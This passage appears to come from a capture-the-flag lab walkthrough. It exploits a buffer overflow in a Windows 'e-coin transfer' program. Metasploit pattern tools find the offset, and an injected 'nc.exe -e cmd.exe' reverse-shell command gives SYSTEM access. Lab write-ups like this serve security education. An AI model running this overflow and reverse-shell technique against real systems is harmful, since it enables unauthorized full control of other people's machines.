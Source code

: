 We overwrote the memory space that contained `C:\Users\admin\Documents\transfer.exe` and it executed a bunch of `A`s instead!

# Exploitation (3)

We can use `msf-pattern_create` to determine the offset.

```bash
$ msf-pattern_create -l 100                                                                 
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A
```

Lets pump it into the program again and calculate our offset.

```bash
 --------------------------------------------------------------
 Please enter the amount of e-coins you would like to transfer:
 [$] Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A
 [$] Transfering $Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A using our e-coin transfer application. 
 [$] Executing e-coin transfer tool: 0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A

$ msf-pattern_offset -q 0Ab1
[*] Exact match at offset 32
```

Now that we know the offset, we can just submit 32 `A`s and append our reverse shell command at the back!

```bash
 --------------------------------------------------------------
 Please enter the amount of e-coins you would like to transfer:
 [$] AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAC:\\tmp\\nc.exe -e cmd.exe 10.10.XX.XX 1337
 [$] Transfering $AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAC:\\tmp\\nc.exe -e cmd.exe 10.10.XX.XX 1337 using our e-coin transfer application. 
 [$] Executing e-coin transfer tool: C:\\tmp\\nc.exe -e cmd.exe 10.10.XX.XX 1337

 [$] Transaction in progress, you can safely disconnect...
```

On our listener that we setup beforehand, we get a shell as `SYSTEM`!

```bash
$ sudo rlwrap nc -lvnp 1337
[sudo] password for kali: 
listening on [any] 1337 ...
connect to [10.10.XX.XX] from (UNKNOWN) [10.10.10.154] 55667
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. Alle rechten voorbehouden.

whoami
whoami
nt authority\system
```
